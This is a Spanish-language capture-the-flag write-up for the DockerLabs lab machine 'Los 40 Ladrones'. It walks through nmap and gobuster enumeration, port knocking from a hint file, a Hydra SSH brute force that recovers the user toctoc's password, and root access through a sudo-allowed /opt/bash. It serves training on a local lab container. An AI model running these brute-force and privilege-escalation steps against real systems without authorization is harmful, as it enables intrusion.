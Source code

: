 ```yaml
---
icon: flag
---
```


# Los 40 Ladrones DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip los40ladrones.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh los40ladrones.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 11:18 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
```

Vemos una web de `apache2` normal, por lo que vamos a realizar un poco de `fuzzing`:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10792]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/qdefense.txt         (Status: 200) [Size: 111]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un archivo interesante llamado `/qdefense.txt` que si entramos dentro de el veremos lo siguiente:

## Escalate user toctoc

```
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

Vemos que tenemos que hacer un `portknocking` de la siguiente forma en nuestro `host`:

```shell
knock <IP> 7000 8000 9000
```

Ahora si nosotros enumeramos que puertos estan abiertos de nuevo:

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Info:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 11:52 EST
Initiating ARP Ping Scan at 11:52
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:52, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:52
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:53, 26.37s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000063s latency).
Scanned at 2025-01-17 11:52:34 EST for 27s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.55 seconds
           Raw packets sent: 131090 (5.768MB) | Rcvd: 24 (1.040KB)
```

Vemos que se nos ha abierto el puerto `SSH` por lo que vamos a probar a poner como usuario `toctoc` ya que parece que se refiere a el como un usuario y tirarle fuerza bruta con `hydra`:

### Hydra

```shell
hydra -l toctoc -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-17 11:54:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 323.00 tries/min, 323 tries in 00:01h, 14344106 to do in 740:09h, 34 active
[STATUS] 264.67 tries/min, 794 tries in 00:03h, 14343635 to do in 903:16h, 34 active
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 28 final worker threads did not complete until end.
[ERROR] 28 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-17 11:58:17
```

Vemos que hemos encontrados las credenciales del usuario `toctoc` por lo que nos conectaremos a el.

### SSH

```shell
ssh toctoc@<IP>
```

Metemos como contraseña `kittycat` y veremos que estamos dentro como dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos los siguiente:

```
Matching Defaults entries for toctoc on f120d0baef4d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User toctoc may run the following commands on f120d0baef4d:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
```

Vemos que podemos ejecutare el binario `/opt/bash` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo /opt/bash
```

Si ejecutamos eso veremos que somos `root`, por lo que ya la habremso termiando.
